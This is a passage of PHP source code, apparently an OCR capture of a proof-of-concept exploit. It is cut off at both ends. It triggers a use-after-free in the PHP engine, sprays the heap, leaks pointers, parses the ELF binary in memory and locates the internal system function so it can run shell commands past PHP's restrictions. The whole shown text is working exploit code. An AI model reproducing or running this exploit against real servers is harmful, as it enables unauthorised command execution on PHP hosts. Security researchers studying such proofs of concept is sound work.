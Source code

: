 ```php
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

```
